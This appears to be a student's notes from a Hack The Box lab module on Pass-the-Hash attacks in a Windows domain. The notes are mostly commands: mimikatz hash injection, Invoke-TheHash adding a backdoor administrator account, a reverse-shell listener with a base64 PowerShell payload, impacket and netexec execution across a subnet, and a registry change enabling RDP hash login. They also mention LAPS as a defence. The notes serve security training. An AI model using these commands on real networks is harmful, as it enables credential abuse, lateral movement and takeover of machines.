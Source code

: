 
## passing the hash as to create shell in the context of another domain user and access a private share:
this situation where even as whoami -> david had no acesss to //dc01/david

```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:david /ntlmm rc4>:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit
```
![[Pasted image 20250625150700.png]]


## PTH with powershell

#### Invoke-TheHash tool:

create and add a user to admins group on DC
```
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

#### reverse shell
```powershell
PS C:\tools> .\nc.exe -lvnp 8001

listening on [any] 8001 ...
```

get a reverse shell with https://revshells.com
```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e <b64shell>
```
![[Pasted image 20250625131506.png]]

#### with impacket on linux
```shell-session
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
```
There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### netexec
```shell-session
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see `Pwn3d!`, it means that the user is a local administrator on the target computer. We can use the option `-x` to execute commands. It is common to see password reuse against many hosts in the same subnet.


a great recommendation for the customer is to implement the [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899), which randomizes the local administrator password and can be configured to have it rotate on a fixed interval.


# EXECUTE COMMANDS WITH NETEXEC
```shell-session
$ netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

We can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.

There are a few caveats to this attack:

- `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:

![Error message: Account restrictions prevent signing in due to blank passwords, limited sign-in times, or policy restrictions.](https://academy.hackthebox.com/storage/modules/308/img/rdp_session-4.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:

#### Enable Restricted Admin Mode to allow PtH

Pass the Hash (PtH)

```cmd-session
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

![Registry Editor showing path to Lsa with DisableRestrictedAdmin set to 0.](https://academy.hackthebox.com/storage/modules/308/img/rdp_session-5.png)

Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:
## UAC limits Pass the Hash for local accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

**Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.

These settings are only for local administrative accounts. If we get access to a domain account with administrative rights on a computer, we can still use Pass the Hash with that computer. If you want to learn more about LocalAccountTokenFilterPolicy, you can read Will Schroeder's blog post [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://posts.specterops.io/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy-506c25a7c167).